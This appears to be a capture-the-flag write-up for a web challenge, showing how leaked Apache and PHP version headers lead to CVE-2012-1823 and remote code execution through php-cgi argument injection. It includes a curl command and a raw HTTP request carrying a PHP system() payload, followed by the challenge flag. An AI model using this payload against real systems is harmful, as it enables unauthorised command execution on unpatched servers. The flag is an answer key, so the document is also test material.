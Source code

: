 ```yaml
---
layout: post
title: "GI Joe"
author: "shreyas-sriram"
tags: ['Web']
---
```


The real American hero!

Connect here:
[http://jh2i.com:50008](http://jh2i.com:50008)

## Solution
* Exploring the page, we find that it is static and there are no interesting functionalities
* Looking at the requests and responses on Burp Suite, we see that too much server information is revealed<br/>

```
HTTP/1.1 200 OK
Date: Sun, 02 Aug 2020 15:37:05 GMT
Server: Apache/2.4.25 (Unix)
X-Powered-By: PHP/5.4.1
Connection: close
Content-Type: text/html
Content-Length: 8117
```

* Looking up on CVE (Common Vulnerabilities and Exposures) for the given server versions, we find [CVE-2012-1823 ](https://nvd.nist.gov/vuln/detail/CVE-2012-1823), which is found in applications of certain PHP versions using `CGI script (aka php-cgi)`
* Proof of concept - [POC](https://qiita.com/okmt1230z/items/b341a741381d050ef86b)
* It is a cakewalk from here-on, just have to follow the above POC
* Visit [jh2i.com:50008/?-s](jh2i.com:50008/?-s) to get the source code
* Notice that the source code reveals the location of the flag - `/flag.txt`
* Make a `POST Request` to [jh2i.com:50008/?-d+allow_url_include%3DOn+-d+auto_prepend_file%3Dphp://input](jh2i.com:50008/?-d+allow_url_include%3DOn+-d+auto_prepend_file%3Dphp://input) with `<?php system('cat /flag.txt'); ?>` as `POST data` to obtain the flag<br/>

```
# Using cURL
$ curl http://jh2i.com:50008/\?-d+allow_url_include%3DOn+-d+auto_prepend_file%3Dphp://input -X POST -d "<?php system('cat /flag.txt'); ?>" -i

# Using Burp Repeater
GET /?-d+allow_url_include%3DOn+-d+auto_prepend_file%3Dphp://input HTTP/1.1
Host: jh2i.com:50008
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
Content-Length: 33

<?php system('cat /flag.txt'); ?>

```

## Flag
```
flag{old_but_gold_attacks_with_cgi_joe}
```